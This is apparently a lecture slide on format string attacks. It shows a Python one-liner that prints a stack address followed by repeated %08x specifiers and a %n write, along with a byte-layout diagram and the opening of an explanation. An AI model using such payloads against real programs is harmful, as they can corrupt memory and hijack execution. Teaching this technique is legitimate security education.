

# Python print  python –c ‘print “\xd0\xeb\xff\xbf”+”%08x%08x%08x%08x%08x%08x%08x%08x%08x%n”’ d0 eb ff bf   %  0  8  x    %  0  8  x     %  0  8  x     %  0  8  x    %  0  8  x    %  0  8  x     %  0  8  x     %  0  8  x     %  0  8  x    %  n \x \x \x \x  c  c  c  c   c  c  c  c     c  c  c  c    c  c  c  c   c  c  c  c    c  c  c  c    c  c  c  c    c  c  c  c    c  c  c  c    c  c

| 4 bytes |
| --- |
| .... |
| \xd0 \xeb \xff \xbf |
| % 0 8 x |
| % 0 8 x |
| % 0 8 x |
| % 0 8 x |
| % 0 8 x |
| % 0 8 x |
| % 0 8 x |
| % 0 8 x |
| % 0 8 x |
| % n . |
| ...... |

Now, let’s check python print.
Here, \x means hexadecimal notation.
So, this sentence print out ….